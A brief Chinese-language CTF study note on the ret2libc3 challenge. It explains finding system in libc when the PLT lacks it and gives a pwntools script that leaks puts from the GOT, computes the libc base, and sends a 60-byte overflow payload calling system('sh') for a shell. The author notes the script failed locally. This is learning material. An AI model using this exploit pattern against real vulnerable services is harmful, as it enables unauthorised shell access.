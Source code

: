 + 这道题的 `plt` 表里面没有 `system` 函数，因此我们只能在 `libc` 里面找 `system` 。

+ 试了一下本地的环境，用本地的 `libc` 来试，没有成功。代码如下（明天试试打攻防世界那一道题）

  ```python3
  #!/bin/python3
  #coding:utf-8
  
  from pwn import *
  
  io = process("./ret2libc3")
  
  elf = ELF("./ret2libc3")
  
  libc = ELF("./libc-2.31.so")
  
  puts_got = elf.got["puts"]
  
  # puts_libc = libc.symbols["puts"]
  # system_libc = libc.symbols["system"]
  
  sh = 0x0804829E
  
  io.sendlineafter(") :", str(puts_got))
  
  io.recvuntil(b" : ")
  
  libcbase = int(io.recvuntil(b"\n", drop = True), 16) - libc.symbols["puts"]
  
  success("libcbase = 0x%x", libcbase)
  
  payload = flat([cyclic(60), libcbase + libc.symbols["system"], b'AAAA', next(elf.search(b"sh\x00"))])
  
  io.sendlineafter(b"me :", payload)
  
  io.interactive()
  ```

  